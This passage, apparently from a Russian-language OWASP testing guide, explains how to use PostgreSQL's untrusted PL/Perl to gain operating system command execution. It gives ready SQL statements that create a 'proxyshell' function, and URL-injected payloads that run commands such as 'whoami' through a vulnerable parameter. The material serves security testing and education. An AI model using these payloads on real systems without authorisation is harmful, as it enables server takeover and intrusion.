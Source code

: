 Plperl позволяет писать функции PostgreSQL на Perl. Обычно он устанавливается как доверенный язык, чтобы отключить на время выполнения операции, которые взаимодействуют с базовой операционной системой, например, `open`. При этом невозможно получить доступ на уровне ОС. Чтобы сработала функция, подобная proxyshell, нам нужно установить недоверенную версию от пользователя `postgres`, чтобы избежать так называемой фильтрации по маске приложения доверенных/недоверенных операций.

- Проверьте, включен ли PL/perl-untrusted: `SELECT count(*) FROM pg_language WHERE lanname='plperlu'`
- Если нет, предполагая, что sysadm уже установил пакет plperl, попробуйте: `CREATE LANGUAGE plperlu`
- Если что-то из вышеперечисленного удалось, создайте функцию proxyshell: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu`
- Радуйтесь: `SELECT proxyshell(команда ОС);`

###### Пример

- Создайте функцию proxyshell: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`
- Запустите команду ОС: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## Ссылки

- [Тестирование SQL-инъекций](05-Testing_for_SQL_Injection.md)
- [Памятка по предотвращению SQL-инъекций](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Официальная документация PostgreSQL](https://www.postgresql.org/docs/)
- [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](https://sqlmap.org/)
